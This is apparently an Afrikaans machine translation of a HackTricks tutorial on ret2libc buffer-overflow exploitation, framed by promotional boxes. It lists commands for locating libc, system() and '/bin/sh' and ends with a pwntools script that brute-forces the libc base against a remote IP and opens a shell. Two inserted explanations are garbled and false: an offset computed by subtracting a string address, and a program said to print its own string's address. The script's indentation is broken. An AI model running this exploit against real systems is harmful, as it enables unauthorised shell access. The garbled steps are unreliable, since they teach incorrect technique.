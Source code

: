 <details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslagplekke.

</details>


**As jy 'n kwesbare binêre lêer gevind het en jy dink jy kan dit uitbuit deur Ret2Lib te gebruik, kan jy hierdie basiese stappe volg.**

# As jy **binne** die **gasheer** is

## Jy kan die **adres van lib**c vind
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
As jy wil nagaan of die ASLR die adres van libc verander, kan jy die volgende doen:
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## Kry die verskuiwing van die stelsel funksie

Om die verskuiwing van die stelsel funksie te kry, kan jy die volgende stappe volg:

1. Identifiseer 'n funksie in die teikenprogram wat 'n biblioteekfunksie aanroep, soos `system()`.
2. Kry die adres van die funksie in die biblioteek. Dit kan gedoen word deur die program te ontleder of deur gebruik te maak van 'n hulpmiddel soos `objdump`.
3. Identifiseer 'n plek in die program se geheue waar jy 'n string kan plaas wat die pad na die biblioteek bevat. Dit kan 'n argument wees wat deur die funksie aanvaar word, of 'n ander plek in die geheue waar jy toegang tot het.
4. Bereken die verskuiwing deur die adres van die funksie in die biblioteek af te trek van die adres van die string in die geheue.

Hier is 'n voorbeeld van hoe jy die verskuiwing kan bereken:

```python
# Voorbeeld Python-kode
adres_van_stelsel_funksie = 0x12345678
adres_van_string = 0xabcdef01

verskuiwing = adres_van_stelsel_funksie - adres_van_string
print(f"Verskuiwing: {verskuiwing}")
```

Onthou dat die spesifieke waardes van die adresse sal verskil vir elke program en stelsel. Jy sal die korrekte adresse vir jou teikenprogram moet vind en die berekening dienooreenkomstig aanpas.
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
## Kry die offset van "/bin/sh"

Om die offset van die `"/bin/sh"` string te kry, kan jy die volgende stappe volg:

1. Skryf 'n eenvoudige C-program wat die `"/bin/sh"` string bevat.
2. Kompileer die program sonder enige optimalisering.
3. Voer die program uit en onthou die geheue-adres van die `"/bin/sh"` string.
4. Gebruik die geheue-adres om die offset te bereken.

Hier is 'n voorbeeld van hoe jy dit kan doen:

```c
#include <stdio.h>

int main() {
    printf("/bin/sh\n");
    return 0;
}
```

Kompileer die program met die volgende opdrag:

```bash
gcc -o binsh binsh.c
```

Voer die program uit en onthou die geheue-adres van die `"/bin/sh"` string:

```bash
./binsh
```

Die geheue-adres sal in die uitset verskyn. Gebruik hierdie adres om die offset te bereken.
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

As die proses elke keer as jy daarmee praat (netwerkbediener) **kinders skep**, probeer om daardie lêer te **lees** (jy sal waarskynlik root moet wees).

Hier kan jy **presies sien waar die libc gelaai word** binne die proses en **waar dit gelaai gaan word** vir elke kind van die proses.

![](<../../.gitbook/assets/image (95).png>)

In hierdie geval word dit gelaai by **0xb75dc000** (Dit sal die basisadres van libc wees)

## Gebruik gdb-peda

Kry die adres van die **system**-funksie, die **exit**-funksie en die string **"/bin/sh"** met behulp van gdb-peda:
```
p system
p exit
find "/bin/sh"
```
# Om ASLR te omseil

Jy kan probeer om die basisadres van libc te bruteforce.
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# Kode
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-opslagplekke.

</details>
